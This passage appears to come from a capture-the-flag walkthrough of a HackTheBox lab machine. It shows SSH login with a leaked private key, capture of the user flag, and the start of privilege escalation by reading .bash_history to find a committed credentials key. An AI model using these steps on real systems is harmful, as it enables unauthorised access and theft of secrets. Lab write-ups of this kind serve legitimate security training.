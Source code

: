 Change the permissions of the file.

```text
chmod 600 roosa_id_rsa
```

SSH into _roosa’s_ account.

```text
ssh -i roosa_id_rsa roosa@10.10.10.91
```

Grab the user.txt flag.

![](https://miro.medium.com/max/617/1*Oxjy7ilTTkB0PY71ruy23g.png)

## Privilege Escalation <a id="95c6"></a>

View the content of the home directory.

```text
roosa@gitter:~$ ls -la
total 168                                                                                    
drwxr-xr-x 22 roosa roosa 4096 May 29  2018 .                                                
drwxr-xr-x  7 root  root  4096 Mar 19  2018 ..                                                      
-r--------  1 roosa roosa 5704 Mar 21  2018 .bash_history                                                   
-rw-r--r--  1 roosa roosa  220 Mar 19  2018 .bash_logout                                                    
-rw-r--r--  1 roosa roosa 3771 Mar 19  2018 .bashrc                                                         
drwx------ 12 roosa roosa 4096 Jan 29 21:31 .cache
.....
```

Let’s look into the _.bash\_history_ file.

```text
roosa@gitter:~$ cat .bash_history...
ls -altr
cat kak
cp kak resources/integration/authcredentials.key 
git add resources/integration/authcredentials.key 
git commit -m 'reverted accidental commit with proper key'
...
```

Roosa made a commit that contained a key. To view the commit history run the following command.

```text
roosa@gitter:~$ git log
fatal: Not a git repository (or any parent up to mount point /home)
Stopping at filesystem boundary (GIT_DISCOVERY_ACROSS_FILESYSTEM not set).
```

We get an error that the folder we’re in is not a git repository. To find the git repository, locate the .git file.
